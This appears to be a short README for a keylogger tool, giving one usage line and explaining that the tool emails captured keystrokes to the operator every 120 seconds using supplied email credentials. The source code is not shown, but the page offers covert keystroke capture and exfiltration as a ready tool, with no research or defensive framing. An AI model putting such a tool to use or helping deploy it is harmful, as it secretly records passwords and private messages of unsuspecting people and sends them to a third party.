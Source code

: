 # Keylogger

> my_keylogger = Keylogger(120, "your-email", "email-password")

firts argument: timer (send the log to your email every 120 seconds)

second argument: your email (email where you want to receive the log)

third argument: email password

 
